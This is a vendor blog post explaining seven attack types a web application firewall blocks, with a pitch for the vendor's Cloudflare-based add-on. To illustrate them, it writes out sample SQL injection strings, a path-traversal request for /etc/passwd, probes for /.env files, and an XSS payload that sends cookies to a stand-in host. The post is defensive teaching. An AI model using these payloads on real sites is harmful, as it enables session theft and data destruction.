

# What a WAF Does: 7 Attacks a Web Application Firewall Blocks

Picture a bouncer at the door of your app. Every request that wants in gets a quick look, and the ones carrying something nasty get turned away before they reach your code. That's what a **WAF** does. A web application firewall sits in front of your application, reads each incoming HTTP request, and drops the malicious ones.

"It blocks bad traffic" is true but useless, so let's get specific. Here are seven real attacks a WAF actually stops, with the kind of request each one looks like, then the honest part about what a WAF can't do on its own. Because it isn't a magic shield, and I'd rather you deploy it knowing that.

> **Short version:** A WAF is a filter in front of your app that inspects HTTP requests and blocks ones matching known attack patterns: SQL injection, XSS, path traversal, bad bots, credential stuffing, exploit probes, and malformed payloads. It runs at the edge, before traffic reaches your origin. It's a strong layer, not a replacement for secure code and patching, and you should run it in monitor mode first so it doesn't block your own users.

## What a web application firewall actually is (and how it differs from a firewall)

A WAF is a security layer positioned in front of your application, at the edge or on the server, that reads each request and checks it against a set of rules. Legitimate requests pass through untouched. Requests that match known attack patterns get blocked with something like a `403 Forbidden` before your app ever sees them.

The word "firewall" trips people up, because a WAF is a different animal from the network firewall you already know. A network firewall works at the connection level (layer 3 and 4): it decides which ports and IP addresses can talk to your server at all. It has no idea what's *in* the traffic it lets through. A WAF works at the application level (layer 7): it reads the actual HTTP request, the URL, the headers, the body, and judges the content. Network firewall guards which doors are open. The WAF reads what each visitor is carrying through them. You want both.

```
Clean:      GET /products?id=42            -->  [ WAF ]  -->  Your app (origin)     passes
Malicious:  GET /products?id=1' OR '1'='1  -->  [ WAF ]   X   403 blocked           SQL injection
```
*Same endpoint, two requests. The WAF waves the clean one through and drops the injection attempt before your app runs a single query.*

## The 7 attacks a WAF blocks

### 1. SQL injection

A request tries to smuggle database commands into a form field or URL, hoping your app hands them straight to the database. A classic looks like `?id=1' OR '1'='1` or a sneaky `'; DROP TABLE users;--`. Left unchecked, it can dump or wreck your data. The WAF recognizes the tell-tale SQL syntax showing up where a plain value should be and blocks it at the door. It's one of the oldest, most damaging web attacks, and it's still everywhere.

### 2. Cross-site scripting (XSS)

A request tries to inject JavaScript into your pages so it runs in other visitors' browsers, stealing sessions or defacing content. Think a comment field stuffed with `<script>fetch('//evil.tld?c='+document.cookie)</script>`. The WAF spots script-injection patterns in the request and drops them before the payload is ever stored or reflected. Pair it with a [Content-Security-Policy header](https://www.kloudbean.com/blog/security-headers-guide/) and you've got real layered defense against the XSS family.

### 3. Path traversal and file access

A request tries to climb out of the web root to read files it shouldn't, using sequences like `../../../etc/passwd` to reach system files or app config. The WAF recognizes the traversal pattern and rejects it. This one pairs closely with exploit probing below, since scanners love to spray these at any URL that takes a filename.

### 4. Bad bots and scrapers

Automated bots hammer your site: scraping content wholesale, hunting for weak spots, burning your resources at scale. A WAF fingerprints non-human, abusive traffic and blocks or challenges it, so your server spends its cycles on real visitors. Not every bot is the enemy (you want Googlebot), and a decent WAF tells the useful crawlers apart from the abusive ones.

### 5. Credential stuffing and brute force

Bots fire thousands of username and password combinations at your login, often reusing credentials leaked from some other breach. Through rate-limiting, the WAF notices one source flooding your login endpoint and throttles or blocks it long before it guesses right. This pairs with app-level protection like multi-factor auth for a login that's genuinely hard to crack.

### 6. Known exploit probes

A huge share of internet background noise is automated scanners poking for known-vulnerable paths: requesting `/wp-admin` tricks, hitting old plugin URLs, and probing for `/.env` or `/.git/config` hoping you left secrets exposed. The WAF recognizes these scan patterns and the signatures of known exploits and quietly absorbs them, so the noise never reaches your app.

### 7. Malformed payloads and upload tricks

The catch-all: requests carrying deliberately malformed data, oversized inputs, or files disguised to slip past your app and execute something they shouldn't. The WAF inspects payloads for these signatures and rejects them, adding a checkpoint between the raw request and your logic. It flags a range of "this request is clearly up to no good" cases you'd otherwise defend against one by one.

<!-- ADD IMAGE: an access log or WAF event feed with blocked probes, requests for /.env, /wp-admin, and a SQL-injection string, each marked 403 -->


## Managed rules versus custom rules

You mostly don't write WAF rules from scratch, and that's the point. Most WAFs ship with a maintained ruleset built on the **OWASP Core Rule Set (CRS)**, the widely used open standard (the engine behind a lot of it is **ModSecurity**). Those rules already cover the seven categories above and get updated as new attack patterns emerge, so you benefit without becoming a security researcher.

Custom rules are for the things only you know: block a country you never sell to, rate-limit a specific expensive endpoint, allow-list your office IP for the admin panel. Start with the managed ruleset, add custom rules only where your app has a specific need. Over-customizing early is a great way to create false positives you'll spend weeks chasing.

<!-- ADD IMAGE: a WAF events dashboard, blocked requests by rule (SQLi, XSS, bad bots) over the last 24 hours -->

## The honest downside: false positives

A WAF's weakness is the flip side of its strength. It matches patterns, and sometimes a legitimate request looks like an attack. A user pastes a code snippet with `<script>` in it into your support form. Your own API sends a payload that trips a rule. Suddenly real people are getting blocked, and the reports land on you.

So here's the rule I'd stand behind: never flip a WAF straight to blocking on day one. Run it in **monitor or log mode** first, watch what it *would* have blocked for a week or two, tune out the false positives, and only then switch to enforce. The anti-pattern we see over and over is someone enabling an aggressive WAF, walking away, and then wondering why their own dashboard or checkout is throwing 403s. Monitor first. Enforce second. Your users will never know it happened.

<!-- ADD IMAGE: a WAF rule in monitor or log-only mode, showing what it would have blocked before you switch it to enforce -->


## A WAF is a layer, not a fix

Now the caveat that matters most, because a WAF is not a force field. It blocks *known patterns*, so a clever novel attack can slip past it, and it absolutely does not excuse sloppy code. If your app builds SQL by string-concatenating user input, a WAF is a band-aid over a wound that needs stitches. Use parameterized queries. Validate input. Keep your software patched. The WAF's real job is soaking up the enormous volume of common, automated junk at the door, which is genuinely valuable and takes real load off you, while your secure code handles the requests that look legitimate but aren't.

Think defense in depth. A WAF sits alongside [DDoS protection](https://www.kloudbean.com/blog/ddos-protection-explained/) at the edge, [security headers](https://www.kloudbean.com/blog/security-headers-guide/) in the browser, and clean images from [container scanning](https://www.kloudbean.com/blog/container-security-scanning/). Anyone telling you a WAF alone makes you safe is overselling. Anyone skipping a WAF because "it's not perfect" is leaving an easy, high-value layer on the table.

## Where a WAF fits on Kloudbean

Straight answer, because the accuracy matters here: Kloudbean doesn't run a WAF baked into the box. The WAF layer is delivered by the **Cloudflare Enterprise add-on**, which is paid on standard plans and included free for Enterprise accounts. It sits at the edge, in front of your origin, and screens layer-7 requests against a maintained ruleset before they reach you. Underneath that, on the server itself, the baseline is a **Shorewall firewall plus Fail2ban**, which closes unused ports and bans addresses that keep misbehaving. So the picture is layered: Cloudflare's WAF at the edge, Shorewall and Fail2ban on the origin, and your secure code behind both. That mirrors how the edge handles floods too, which we cover in [DDoS protection explained](https://www.kloudbean.com/blog/ddos-protection-explained/), and it's the same defense-in-depth story as [secure WordPress hosting](https://www.kloudbean.com/blog/secure-wordpress-hosting/).

**A bouncer at the door, a sound building behind it.** Run your app on a managed stack with an edge WAF add-on and a hardened origin at [kloudbean.com](https://www.kloudbean.com/). Cloudflare Enterprise edge add-on · Shorewall + Fail2ban baseline · Free SSL · Managed patching · Automatic backups · Free trial. Plans on [pricing](https://www.kloudbean.com/pricing/).

## FAQ

**What does a WAF do?**
A web application firewall sits in front of your app and inspects each incoming HTTP request against a set of rules, blocking the ones that match known attack patterns while letting legitimate traffic through. In plain terms, it reads what each request is trying to do and drops the malicious ones before they reach your code, catching the large volume of common automated attacks at the door.

**What attacks does a WAF block?**
Common ones include SQL injection, cross-site scripting (XSS), path traversal, abusive bots and scrapers, credential stuffing and brute-force logins (via rate-limiting), automated probes for known vulnerabilities like requests for /.env or /wp-admin, and requests carrying malformed or oversized payloads. It handles the bulk of common, automated attacks before they reach your application code.

**How is a WAF different from a network firewall?**
A network firewall works at layers 3 and 4: it filters by port and IP address and decides which connections are allowed at all, without inspecting the content. A WAF works at layer 7: it reads the actual HTTP request (URL, headers, body) and blocks ones that look like attacks such as SQL injection or XSS. They protect different layers and are typically used together.

**Is a WAF enough to secure my app?**
No. It's one layer, not the whole solution. A WAF blocks known attack patterns and takes real load off you, but it can miss novel attacks and doesn't replace writing secure code (parameterized queries, input validation) or keeping software patched. Use it as part of defense in depth alongside those practices, not instead of them.

**What is the OWASP Core Rule Set?**
The OWASP Core Rule Set (CRS) is a widely used, open set of WAF rules that detect common attacks like SQL injection and XSS. Many WAFs ship it (or something based on it) as their default managed ruleset, often on the ModSecurity engine, and keep it updated as new attack patterns appear. It means you get broad protection without writing rules yourself.

**Will a WAF block legitimate users by mistake?**
It can, and that's the main downside. Because a WAF matches patterns, a legitimate request that happens to look like an attack (say a user pasting code with a script tag into a form) can get blocked. The fix is to run the WAF in monitor or log mode first, watch what it would block, tune out the false positives, and only then switch to enforcing.

**Does a WAF replace secure coding and patching?**
No. A WAF is a safety net over your app, not a substitute for building it securely. If your code concatenates user input into SQL, a WAF only papers over the real flaw. Use parameterized queries, validate input, and keep software patched. The WAF's job is to absorb the flood of automated attacks so your secure code can focus on the requests that look legitimate but aren't.

**Do I have to configure a WAF myself?**
Usually not much. A WAF ships with a maintained ruleset (commonly based on the OWASP Core Rule Set) that covers common attacks out of the box, so you benefit without writing rules. You can add custom rules for your specific needs, like rate-limiting one endpoint or allow-listing your admin IP, but the defaults already block the bulk of automated attacks.

**Does Kloudbean include a WAF?**
The WAF on Kloudbean is delivered through the Cloudflare Enterprise add-on, which is paid on standard plans and included free for Enterprise accounts. It runs at the edge in front of your origin and screens layer-7 requests against a maintained ruleset. On the server itself, a Shorewall firewall and Fail2ban form the baseline, so you get edge filtering plus a hardened origin, with your secure code behind both.

---

*By Kloudbean · The bouncer at your app's door.*
